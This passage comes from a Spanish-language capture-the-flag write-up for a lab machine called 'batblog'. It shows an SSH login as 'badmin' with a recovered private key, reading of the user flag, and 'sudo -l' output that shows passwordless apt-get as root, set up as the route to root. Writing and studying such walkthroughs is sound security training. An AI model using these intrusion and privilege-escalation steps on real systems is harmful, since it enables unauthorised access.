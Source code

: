 Entonces ahora si que podemos derivar la clave pública y vemos que pertenece al usuario `badmin`
```console
➜  content ssh-keygen -y -f id_rsa > id_rsa.pub
Enter passphrase:
➜  content cat id_rsa.pub
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: id_rsa.pub
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtTpfujL+ACKR1sjRqTxxxTbahhuY7PfyH3ndLVsziJnLZVFsMJvXThdzMba2QIRXEzu
       │ ojTUkpIbxzl6ayjSIs8pNvxwakJeN1F8r9KjORu9FmFDKp7vdvR2dMY4ct1qGUwBU9lnfdcaW3iTNtW6ymZsB7Qwqy8hZgvokubnUNU+7f
       │ loSSTXNNBvbnmTyHgdVunuaFc/dXBaXYCJEaxeUXQd252XMk9PGSapF8kKSnqQU/ZWwc4h69dXkaygu+rhIXppS+TtAgUSSKA6ASTwnajw
       │ JHkW6sBR53mceqcpKRwAmZdKvbrw0TcdrlhuLdcQEN/5lU0RQkWWGXlY7FR4fp badmin@batblog
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Ahora podemos iniciar sesión como `badmin` utilizando su clave privada y la passphrase.
```console
ssh badmin@batblog.bsh -i id_rsa
Enter passphrase for key 'id_rsa':
Linux batblog 4.19.0-26-amd64 #1 SMP Debian 4.19.304-1 (2024-01-09) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May  7 15:05:25 2024 from 10.0.0.2
badmin@batblog:~$ id
uid=1000(badmin) gid=1000(badmin) groups=1000(badmin),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

Podemos leer la flag de usuario.
```console
badmin@batblog:~$ cat user.txt
4cba7d3b85f362f1d...
```

## Pivoting to `root`
Podemos ver que podemos ejecutar el binario `apt-get` como `root` sin necesidad de proporcionar contraseña.
```console
badmin@batblog:~$ sudo -l

sudo: unable to resolve host batblog: Temporary failure in name resolution
Matching Defaults entries for badmin on batblog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User badmin may run the following commands on batblog:
    (root) NOPASSWD: /bin/apt-get
```
